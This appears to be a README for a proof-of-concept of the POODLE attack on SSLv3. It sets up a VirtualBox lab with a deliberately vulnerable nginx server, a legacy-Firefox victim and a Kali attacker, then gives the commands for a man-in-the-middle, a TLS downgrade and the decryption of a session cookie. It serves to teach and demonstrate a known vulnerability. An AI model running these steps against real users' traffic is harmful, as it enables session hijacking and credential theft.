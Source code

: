 # Another POODLE attack PoC
See forked [Poodle PoC repository of mpgn](https://github.com/mpgn/poodle-PoC) to learn more about  the POODLE attack.

## :zap: General setup
I recommend VirtualBox with NAT network. In this example, the assigned IP subnet is 10.0.2.0/24. You can find my video of this PoC and the full attack on [YouTube](https://www.youtube.com/watch?v=9w1x6_UI64c).

## :computer: Vulnerable server
Download Ubuntu 12.04 (server install CD) from [here](http://releases.ubuntu.com/12.04/) and get a running server in VirtualBox. After installation, log in and become root. DO NOT RUN ANY SYSTEM UPDATES! Then type
```console
wget https://raw.githubusercontent.com/RootDev4/poodle-PoC/master/install-nginx-server.sh && chmod +x install-nginx-server.sh && ./install-nginx-server.sh
```
to install and configure a vulnerable nginx web server.  
Get assigned IP address of server with ```ip a``` (in this example, it's 10.0.2.14).

## :computer: Victim's machine
Download any OS of your choice (I used [Ubuntu Desktop 20.04](https://ubuntu.com/download)) and install it in VirtualBox. After installation, log in and download a [legacy version of Firefox browser](https://ftp.mozilla.org/pub/firefox/releases/) (successfully tested with [Firefox v33.0](https://ftp.mozilla.org/pub/firefox/releases/33.0/)).

## :computer: Attacker's machine
Download latest [Kali Linux](https://www.kali.org/downloads/) (or any other Linux distribution of your choice) and install it in VirtualBox. After installation, log in and become root. Clone this repository to your computer by running
```console
git clone https://github.com/RootDev4/poodle-PoC.git
```
and type
```console
chmod +x recompile-openssl.sh && ./recompile-openssl.sh
```
to recompile the installed OpenSSL software with SSLv3.0 support since these protocol is disabled by default.  
Get assigned IP address of attacker's machine with ```ip a``` (in this example, it's 10.0.2.17).

httpserver.py imports the netifaces module. If missing, install it with
```console
apt install python3-pip -y && pip3 install netifaces
```

## :bomb: Attack!
On the attacker's machine, run the following in separate terminal tabs/windows.

### Terminal tab/window 1
```console
python3 httpserver.py https://10.0.2.14/
```
where https://10.0.2.14/ is the URL to the nginx server website.

### Terminal tab/window 2
```console
./start-mitm-attack.sh
```
and follow instructions shown in the terminal's window.

### Terminal tab/window 3
```console
python3 ./poodle-exploit.py 10.0.2.17 4443 10.0.2.14 443 --start-block 49 --stop-block 52
```
where 10.0.2.17 is the attacker's IP address and 10.0.2.14 is the nginx server's IP address. Adjust the cookie's block position of HTTP header in --start-block and --stop-block.

Keep terminal tab/window 1 and 2 open in the background and only focus on tab/window 3.

Open https://10.0.2.14/ (nginx server's IP address) on the victim's machine and sign in with John:mypasswd to create an user session/cookie. Open http://10.0.2.17/ (attacker's IP address) in another browser tab and click the button "Ping HTTPS Server" to check, if the MitM attack is working. Back on the attacker's machine, the script should now output the received package length.
 
If SSL protocol is not SSLv3.0, type ```downgrade``` to start a TLS downgrade attack. This might not work, so as a workaround, you have to manually downgrade the browser's TLS protocol support on the attacker's machine. Open _about:config_ in a new tab of the browser and set _security.tls.version.max_ to 0. Read more about that issue [here](https://github.com/mpgn/poodle-PoC/issues/4).

Then type ```search``` and hit the button "Find CBC block length" on the victim's machine to find the right block length. After the script have found the block length, type ```active``` and hit the button "Run decryption" on the victim's machine. This will start the decryption attack.
